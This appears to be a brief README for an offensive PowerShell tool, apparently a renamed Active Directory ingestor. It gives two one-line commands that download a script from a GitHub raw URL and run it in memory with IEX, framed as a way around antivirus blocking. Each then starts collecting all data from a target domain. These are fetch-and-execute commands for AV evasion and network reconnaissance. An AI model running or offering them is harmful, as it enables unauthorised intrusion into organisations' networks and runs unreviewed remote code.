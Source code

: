 ## Sometimes AV will block the default script, just try this command
### Run this script with

```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1");lol -CollectionMethod All -Domain target.com
```
OR
```
$a = [System.Net.WebRequest]::Create('https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1');$b=$a.GetResponse();$c=$b.GetResponseStream();$d=[System.IO.StreamReader]::new($c);$content=$d.ReadToEnd();IEX($content);lol -CollectionMethod All -Domain target.com
```
